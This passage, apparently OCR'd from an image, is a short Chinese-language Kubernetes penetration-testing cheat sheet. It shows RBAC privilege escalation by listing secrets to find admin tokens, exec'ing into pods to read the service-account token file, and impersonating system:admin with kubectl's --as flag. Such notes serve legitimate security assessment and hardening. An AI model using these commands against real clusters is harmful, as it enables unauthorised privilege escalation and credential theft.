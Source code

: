   #### RBAC - 列出密钥
	如果用户附加了一个角色，允许他们列出密钥，可能会滥用它来提升权限。 当列出存储在集群中的所有机密时，其中之一将是管理令牌，允许攻击者在集群中获得最高权限
	> kubectl get secrets #记录NAME
	> kubectl describe secrets "NAME"
	#### RBAC - Pod 执行
	如果你的用户对"pods/exec"资源具有“创建”权限，可以在运行的 pod 上执行 shell 命令。
	连接到pod
	> kubectl exec --stdin --tty NAME_OF_POD -- /bin/bash
	查看令牌
	> cat /var/run/secrets/kubernetes.io/serviceaccount/token
  #### RBAC - 模拟
	如果用户有能力模拟用户或组，则可以利用它来提升权限
	> kubectl get secret --as=system:admin
	如上面的命令所示，您可以使用“--as”命令指定执行命令的用户。